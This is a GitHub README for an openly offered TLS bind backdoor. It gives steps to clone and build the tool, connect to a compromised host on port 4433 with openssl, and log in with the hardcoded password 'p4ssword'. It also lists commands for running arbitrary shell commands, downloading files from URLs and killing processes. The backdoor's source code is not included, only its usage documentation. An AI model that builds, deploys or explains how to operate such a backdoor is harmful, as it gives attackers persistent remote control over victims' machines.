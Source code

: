 # TLS Bind Backdoor
Just a simple TLS tcp bind backdoor with essential functionalities.

## Compilation
`git clone https://github.com/Zeta314/backdoor-tls.git`
`cd backdoor-tls`
`make`
At this point in `build` folder there are three files: `backdoor` (actually the backdoor executable), `key.pem` and `cert.pem`.
When you have to execute the backdoor, it's important that there are `key.pem` and `cert.pem` in the same folder.

## Connection
To connect to the backdoor, you must have installed `openssl`.
If you don't have openssl installed, just type `sudo apt-get install openssl` in the terminal.

Once installed openssl, to connect you have to type:
`openssl s_client -connect {IP HERE}:4433`

Once connected it will prompt you the password, just type `p4ssword`.

## Available commands
* kill <PID>
+ It will kill the process with the given `process ID`

* whoami
+ It will give you the name of the user that is executing the backdoor

* exec <command>
+ It will execute the given `command`, like in bash shell

* download <URL>
+ It will download the given `URL` to the current working directory

* shutdown
+ It will shut down the backdoor server

* help
+ It will output the command list

